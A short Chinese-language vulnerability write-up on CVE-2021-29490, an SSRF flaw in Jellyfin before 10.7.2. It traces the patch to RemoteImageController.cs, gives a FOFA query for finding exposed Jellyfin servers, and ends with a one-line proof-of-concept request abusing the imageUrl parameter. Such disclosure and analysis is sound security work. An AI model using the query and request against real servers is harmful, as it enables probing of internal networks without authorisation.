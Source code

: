 # Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

```
Jellyfin < 10.7.2
```

## FOFA

```
app="Jellyfin"
```

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241459343.png)

官方删除了某个方法

```
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件

```
Jellyfin.Api/Controllers/RemoteImageController.cs
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241459044.png)

其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241459542.png)

构造请求POC

```
/Images/Remote?imageUrl=http://www.baidu.com
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241459712.png)